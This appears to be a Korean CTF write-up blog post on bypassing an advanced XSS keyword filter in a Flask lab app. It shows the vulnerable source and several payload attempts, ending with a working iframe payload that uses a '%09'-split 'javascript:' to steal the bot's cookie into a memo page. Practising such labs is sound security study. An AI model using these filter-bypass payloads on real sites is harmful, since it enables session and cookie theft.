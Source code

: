 ```yaml
---
title: "[2025-07-31] XSS Bypass filtering advanced"
excerpt: "XSS "

categories:
  - Problem
tags:
  - [XSS]

permalink: /Problem/[2025-07-31] XSS Bypass filtering advanced/

toc: true
toc_sticky: true

date: 2025-07-31
last_modified_at: 2025-08-04
---
```


## 🦥 본문

- app.py

```html
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)

app.run(host="0.0.0.0", port=8000)

```

기존에 풀었던 XSS 문제와 같은 유형이다. 하지만 필터가 더 업그레이드 됐다.

1. 더블 인코딩으로 인한 우회

```html

<%73cript>l%6Fcation.href="/memo?memo=" + d%6Fcument.cookie</%73cript>
```

Selinum이 자동 인코딩을 하지 않는 다는 점을 이용하여 더블 인코딩을 노렸는 데, 안됐다 

```html
url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}
```

하지만 `urllib.parse.quote()` 에서 인코딩이 된다고 한다.

1. 다음과 같은 3개의 코드를 집어 넣었다

```html
<s%09cript>l%09ocation.href="/memo?memo=" + d%09ocument.cookie</s%09cript>
<iframe src="j\tavascript:l\tocation.href='/memo?memo=' + d\tocument.cookie">
<iframe src="j%09avascript:l%09ocation.href='/memo?memo=' + d%09ocument.cookie">
```

- 첫번째 코드는 태그 자체가 깨져서 HTML 파서가 무시를 한다.
- 두번째 코드와 세번째 코드의 차이
    - 2번째 코드는 HTML이 `<iframe src="j[TAB]avascript">` 로 판단. src 속성에서 탭 문자 포함된 URL은 유효하지 않다고 판단 → 무시 → XSS 실패
    - 3번째 코드는 `<iframe src="j%09avascript">` 로 판단. HTML이 %09를 디코딩 하는 과정에서 탭이라 판단 후 제거 → `javascript:` 복원

### 풀이 및 정답

```html
<iframe src="j%09avascript:l%09ocation.href='/memo?memo=' + d%09ocument.cookie">
```